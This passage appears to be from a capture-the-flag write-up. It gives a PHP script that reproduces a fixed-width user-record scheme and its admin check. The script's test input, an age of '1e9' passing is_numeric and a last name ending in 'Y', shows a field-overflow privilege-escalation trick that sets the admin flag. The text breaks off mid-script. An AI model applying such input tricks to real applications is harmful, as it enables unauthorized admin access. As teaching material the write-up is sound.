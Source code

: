 I used this php code to test locally whether it will work or not:

1e9 = 1000000000

```php


<?php

function isAdmin(){
    $users_txt = file_get_contents('users.txt');
    foreach( explode(PHP_EOL,$users_txt) as $user_str ){
        if( strlen($user_str) == 113 ){
            $username = str_replace('#', '', substr($user_str, 0, 15));
            $users = array(
                'username' => $username,
                'password' => str_replace('#', '', substr($user_str, 15, 32)),
                'cookie' => str_replace('#', '', substr($user_str, 47, 32)),
                'age' => intval(str_replace('#', '', substr($user_str, 79, 3))),
                'firstname' => str_replace('#', '', substr($user_str, 82, 15)),
                'lastname' => str_replace('#', '', substr($user_str, 97, 15)),
                'admin' => ((substr($user_str, 112, 1) === 'Y') ? true : false)
            );
            echo $users['admin'];
            if (substr($user_str, 112, 1) === 'Y'){
                echo "\nYou are admin here is your flag{xxxxxxxx}";
            }
        }
    }
}

function addUser($username,$password,$age,$firstname,$lastname){
    $random_hash = md5( print_r($_SERVER,true).print_r($_POST,true).date("U").microtime().rand() );
    $line = '';
    $line .= str_pad( $username,15,"#");
    $line .= $password;
    $line .= $random_hash;
    $line .= str_pad( $age,3,"#");
    $line .= str_pad( $firstname,15,"#");
    $line .= str_pad( $lastname,15,"#");
    $line .= 'N';
    echo "Here is the line before substr 113\n";
    echo $line;

    $line = substr($line,0,113);
    echo "\nHere is the line after substr 113\n";
    echo $line;
    file_put_contents('users.txt',$line.PHP_EOL, FILE_APPEND);
    echo "\nWritten successfully to user.txt\n";
}



$username = 'test';
$password = md5('test');
$age = '1e9';
$firstname = 'aaaaaaaaaaaaaa';
$lastname = 'setiaaaaY';  //notice the Y at the last

$username =  substr(preg_replace('/([^a-zA-Z0-9])/', '', $username), 0, 15);
$firstname = substr(preg_replace('/([^a-zA-Z0-9])/', '', $firstname), 0, 15);
$lastname =  substr(preg_replace('/([^a-zA-Z0-9])/', '', $lastname), 0, 15);

if (!is_numeric($age)) {
    echo 'Age entered is invalid<br/>';
```